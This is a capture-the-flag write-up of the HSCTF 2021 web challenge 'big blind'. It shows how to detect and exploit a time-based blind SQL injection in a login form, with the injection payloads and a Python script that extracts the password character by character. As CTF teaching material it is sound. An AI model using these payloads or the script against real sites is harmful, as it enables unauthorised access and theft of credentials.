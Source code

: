 ```yaml
---
layout: load_md
title: The White Circle | Hsctf 2021 | big blind Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Hsctf 2021
parent: hsctf_2021
category: web
challenge: big blind
tags: "web, twh, sql, sqli, python"
---
```


<h1 class="heading card-title white-text">Hsctf 2021</h1>

## big blind
> Solved By : thewhiteh4t


- we are given a login page in this challenge
- the page source does not contain any JS
- After trying several things I found that we get status 500 on using `'` in either username or password field
- we don’t get an error if we use `'` in both fields
- A better test is to use the following :

```
user : ''
pass : '
```

- in the above case we get an error which shows that its due to an un-closed `'`
- we don’t get an error in the following case :

```
user : ''
pass : ''
```

- finally I confirmed that its blind SQL injection by using the following payload :

```
' or sleep(2) and 1=1#
```

- so here it was clear that its MySQL because syntax for others are different
- I used `SUBSTRING` and `SLEEP` to bruteforce the flag one character at a time
- payload :

```
' OR IF(SUBSTRING(pass,1,1)='f',sleep(5),sleep(0))#
```

- Explanation :
    - substring function requires three arguments
    - first argument is the string which we want to check
    - second argument is the position which we want to check
    - third argument is the length we want to check
    - to check one character at a time I incremented second argument each time and kept third argument fixed
- Usage of `IF` :
    - If uses three arguments
    - first is the condition
    - second is action if condition is `True`
    - third is action if condition is `False`
    - so when we find a match we will see a sleep of 5 seconds else page will load immediately
- Automation :

```python
from requests import post, ReadTimeout

url = 'https://big-blind.hsc.tf/'
charset = '_{}flagisodnbcehjkmpqrtuvwxyz'
flag = ''
counter = 0

while flag.endswith('}') != True:
    counter += 1
    for char in charset:
        payload = {
            'user': 'twh',
            'pass': f"' OR IF(SUBSTRING(pass,{counter},1)='{char}',sleep(5),sleep(0))#"
        }
        try:
            r = post(url, data=payload, timeout=3)
        except ReadTimeout:
            flag += char
            print(f'FLAG : {flag}')
            break
```

- output :

![](https://i.imgur.com/fAdPjA5.png)

